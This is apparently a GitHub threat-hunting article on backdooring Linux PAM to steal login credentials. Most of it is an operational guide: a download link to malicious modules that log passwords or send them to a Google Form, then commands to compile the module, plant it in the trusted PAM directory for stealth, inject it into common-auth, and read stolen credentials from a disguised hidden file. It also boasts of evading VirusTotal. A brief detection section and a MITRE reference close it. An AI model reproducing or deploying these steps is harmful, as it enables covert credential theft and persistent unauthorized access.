 #### Disclaimer

_This article is intended for educational and awareness purposes only. The techniques demonstrated are for understanding security risks and improving defenses. Unauthorized use or replication of these methods for malicious activities is strictly prohibited and may be illegal. Always obtain proper authorization before testing or simulating attacks on any systems. The author is not responsible for any misuse, damage, or illegal activities resulting from applying the techniques discussed._

### Background  
PAM modules are dynamically loaded components that handle authentication on Linux systems. Attackers can exploit this by installing malicious modules and modifying PAM’s configuration to load them during login. This allows the attacker to secretly capture user credentials whenever authentication occurs, making it a powerful vector for persistent access and data theft  

Note: This was tested on Debian-based systems. The provided steps are specifically tailored for Debian/Ubuntu environments. For Fedora or Red Hat systems, just update the library and configuration file paths—the module code remains the same.  
#### How the infostealer(custom module) works?
The malicious code hooks into _pam_sm_authenticate()_, capturing the username via _pam_get_user()_ and the password via _pam_get_authtok()_ before silently logging or exfiltrating them. Meanwhile, _pam_sm_setcred()_ completes the authentication process to avoid detection.

I’ve uploaded code for two Linux PAM modules: one logs credentials to disk (already compiled), and the other exfiltrates to Google Forms (requires updating values before compiling). Download [here](https://github.com/le0li9ht/ThreatHunting/blob/main/Linux/PAM/StealingCredentials/pam_backdoor_lab.zip)  
##### Code files

```
pam_backdoor_lab.zip
│
├── pam_backdoor_disklog/
│   ├── pam_backdoor.c
|   ├── pam_backdoor.so
└── pam_backdoor_googleform/
    ├── pam_backdoor.c
```

For the first, just copy the compiled module to the shared library location.  I have not compiled the second module yet because it requires updating the Google Form URL(as shown in below image) and entry values in the source code. Once those are set, you can compile and deploy the module.    

![image](https://github.com/user-attachments/assets/e5021065-7e31-4744-804d-8bf18cf60bcf)  



At the time of writing, this module was not flagged as malicious by VirusTotal, highlighting how such techniques can easily evade standard detection mechanisms.  
Sample1:
![2025-06-08_01-42](https://github.com/user-attachments/assets/2a19e69b-50cc-4979-a96d-056d352f846b)  
https://www.virustotal.com/gui/file/c7022836a3f92a6589df7cce99ee3db69ce0a98a7c266ba90a8ec5e37227329e?nocache=1   

Sample2: 
![2025-06-08_13-19](https://github.com/user-attachments/assets/d0a56c5d-2247-4db7-85fb-7a38561873b5)  

https://www.virustotal.com/gui/file/5dc45286ff0904add55a4c2b286f0e79c7b880dfa21c6badbb5f814fefd7476e?nocache=1  


#### Step 1: Install Development Package for PAM Modules    
You need to install libpam0g-dev because it provides the header files and libraries required to compile custom PAM modules  
```
sudo apt update  
sudo apt install libpam0g-dev  
```  
#### Step 2: Compile the Custom PAM Module  
```
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o
```
#### Step3: Deploy the Compiled Module into PAM's Trusted Directory  
Copy the Custom module to /lib/x86_64-linux-gnu/security/ because it’s the default trusted location for PAM modules, ensuring it’s automatically loaded by all PAM-aware services and stays hidden among legitimate system files for better stealth and persistence.   
```
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security/
```      
Modify the _common-auth_ file under _/etc/pam.d_ , which handles authentication, by inserting the backdoor module at the top of the PAM authentication stack. This ensures it executes first during all authentication requests, allowing the backdoor to intercept credentials stealthily and persistently across system login processes.  
```
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth
```   

#### Step4: Test the Infostealer Module 
Perform any authentication action like `sudo`, `su`, `su -`, or SSH logins. The backdoor will capture and log all credentials during these authentications.
```
sudo su
su -
ssh user@ip
```

- **If using the disk-logging module:**  
All captured credentials are saved to a hidden, seemingly legitimate file on disk named /tmp/.X11-unixs. To view the stolen creds, run:   
```
cat /tmp/.X11-unixs
```
![2025-06-08_01-34](https://github.com/user-attachments/assets/63e2bfb4-5833-44b1-bce3-e8afeb6fe1ce)


- **If using the Google Forms exfiltration module:**
Credentials are sent silently to your configured Google Form. Check your Google Form responses to verify captured data as shown.
![2025-06-08_00-54_1](https://github.com/user-attachments/assets/ae275802-ce96-4481-9354-c30fae9c7e56)   
![2025-06-08_00-54](https://github.com/user-attachments/assets/8d773b2c-7369-4e9e-af75-7961f9da1fef)
Exfiltrated credentials on google form.
  
#### Detection. 
Always monitor the directories where PAM modules are loaded—such as _/etc/pam.d/_ and _/lib/security/_  _/lib/x86_64-linux-gnu/security/_  —using File Integrity Monitoring (FIM) to detect unauthorized changes.  

Elastic has written a nicr detection rule for the same [persistence_pluggable_authentication_module_creation](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/persistence_pluggable_authentication_module_creation.toml)  
##### MITRE. 
[T1556.003 - Pluggable Authentication Modules: Malicious PAM](https://attack.mitre.org/techniques/T1556/003/)  


